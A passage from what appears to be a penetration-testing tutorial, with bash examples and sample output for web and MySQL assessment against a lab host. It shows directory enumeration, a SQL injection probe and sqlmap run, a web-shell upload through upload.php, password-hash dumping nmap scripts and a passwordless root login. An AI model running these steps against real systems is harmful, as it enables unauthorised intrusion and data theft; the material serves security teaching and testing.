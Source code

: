 ### Example 2: Web Application Vulnerability Assessment
```bash
# Directory and file enumeration
gobuster dir -u http://192.168.1.100 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt
# Output:
# /admin                (Status: 200) [Size: 1234]
# /backup               (Status: 200) [Size: 567]
# /config.php           (Status: 200) [Size: 0]
# /login.php            (Status: 200) [Size: 890]
# /upload.php           (Status: 200) [Size: 445]

# Manual vulnerability testing
curl "http://192.168.1.100/login.php?id=1'"
# Output: MySQL error message revealing database structure

curl -X POST -F "file=@shell.php" http://192.168.1.100/upload.php
# Output: File uploaded successfully to /uploads/shell.php

# SQL injection testing
sqlmap -u "http://192.168.1.100/login.php?id=1" --dbs
# Output:
# available databases [3]:
# [*] information_schema
# [*] mysql
# [*] webapp
```

### Example 3: Database Vulnerability Assessment
```bash
# MySQL vulnerability assessment
nmap --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 -p 3306 192.168.1.100
# Output:
# 3306/tcp open  mysql
# | mysql-empty-password:
# |_  root account has empty password
# | mysql-info:
# |   Protocol: 10
# |   Version: 5.5.62-0ubuntu0.14.04.1
# |   Thread ID: 39
# |   Some Capabilities: LongColumnFlag, Protocol41, Transactions
# | mysql-users:
# |   root
# |   debian-sys-maint
# |   webapp_user

# Manual database testing
mysql -h 192.168.1.100 -u root
# Output: Successfully connected without password
# MySQL [(none)]> show databases;
# +--------------------+
# | Database           |
# +--------------------+
# | information_schema |
# | mysql              |
# | webapp             |
# +--------------------+
```
